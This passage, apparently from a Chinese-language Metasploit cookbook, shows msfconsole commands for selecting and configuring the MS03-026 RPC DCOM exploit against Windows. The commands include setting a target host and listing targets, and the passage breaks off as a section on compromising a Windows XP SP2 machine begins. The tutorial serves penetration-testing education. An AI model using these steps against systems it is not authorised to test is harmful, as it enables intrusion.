 ```
    msf > search ms03_026_dcom
    Matching Modules
    ================
    Name Disclosure Date Rank Description
    ---- --------------- ---- -----------
    exploit/windows/
    dcerpc/ms03_026_dcom 2003-07-16 great Microsoft RPC DCOM 
    ```

+   `msf > use exploit:` 此命令用于设置任何攻击为活动状态并准备使用。命令以以下方式传递：

msf > use exploit name

执行此命令后，提示符也会更改为攻击类型：

```
    msf > use exploit/windows/dcerpc/ms03_026_dcom
    msf exploit(ms03_026_dcom) > 
    ```

+   `show options:` 此命令用于查看正在使用的攻击的可用选项或参数。各种参数包括主机 IP、端口、线程等。标记为`yes`的参数必须有一个值才能执行攻击。

```
    msf exploit(ms03_026_dcom) > show options
    Module options (exploit/windows/dcerpc/ms03_026_dcom):
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    RHOST yes The target address
    RPORT 135 yes The target port 
    ```

+   `set:` 此命令用于在使用的攻击中设置参数的值。它用于为使用的特定攻击设置有效载荷。命令可以以以下方式传递：

`msf > set parameter-name parameter-value`

同样，我们也可以使用`unset`命令：

```
    msf exploit(ms03_026_dcom) > set RHOST 102.168.56.102
    RHOST => 102.168.56.102
    msf exploit(ms03_026_dcom) > 
    ```

+   还有名为`setg`和`unsetg`的可选命令。当我们需要在`msfconsole`中全局设置参数值时，可以使用这些命令。因此，它可以避免我们重新输入相同的值。

+   `show targets:` 每个攻击都是针对特定目标服务的。此命令显示攻击可以使用的可能目标的信息：

```
    msf exploit(ms03_026_dcom) > show targets
    Exploit targets:
    Id Name
    -- ----
    0 Windows NT SP3-6a/2000/XP/2003 Universal 
    ```

在这里，我们可以看到`dcom`攻击适用于多种 Windows 机器。

## 它是如何工作的...

在第一章中，*安全专业人员的 Metasploit 快速提示*，我们已经讨论了整个 Metasploit 框架具有模块化架构。不同的攻击被转换为框架可理解的模块，可以根据其功能。调用不同的命令来加载和设置模块。`msfconsole`的命令行界面使得访问不同的模块和执行渗透测试变得容易。

# 在 Windows XP SP2 机器上进行渗透测试

现在让我们开始使用攻击的世界。首先，我们将使用最基本但最广泛使用的操作系统 Windows XP。在这个示例中，我们将看到如何使用 Metasploit 来入侵我们正在运行 Windows XP 机器的目标系统。我们将使用在上一个示例中学到的命令，然后继续选择攻击和有效载荷，并设置各种所需的参数。
```